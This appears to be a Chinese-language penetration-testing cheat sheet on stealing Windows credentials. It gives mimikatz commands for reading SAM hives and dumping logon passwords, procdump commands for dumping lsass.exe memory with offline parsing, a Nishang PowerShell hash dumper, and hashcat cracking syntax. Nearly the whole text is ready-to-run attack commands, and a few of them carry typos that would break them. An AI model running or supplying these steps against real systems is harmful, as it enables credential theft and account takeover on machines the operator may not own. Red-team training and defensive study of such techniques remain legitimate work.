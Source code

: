 - 读取SAM和system文件获得NTLM Hash

```
mimikatz
lsadump::sam /sam:sam.hive /system:system hive
```
- mimikatzz直接读取本地SAM

```
privilege::debug
lsadump::sam
```

##### 使用mimikatz在线读取SAM文件

```
mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords"
```

##### 使用mimikatz离线读取lsass.dmp文件

- 导出lsass.dmp文件

```
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

- mimikatz导出散列值

```
sekurlsa::minidump lsass.DMP 加载文件
sekurlsa::logonPasswords full 导出密码散列
```

##### Powershell

- Nishang Get-PassHashes.ps1

```
Import-Moudle .\Get-PassHashes.ps1
GetPassHashs
```
- powershell远程加载mimikatz获取散列值

#### 使用Hashcat获取密码

- 下载

```
make
make install
./hashcat -h
```
- Hashcats使用

```
hashcat -b 测试当前机器基准速度
-m 指定散列值
-a number 破解模式

hashcat -a 0 -m xx <hashfile> <zidian> <zidian2>
```
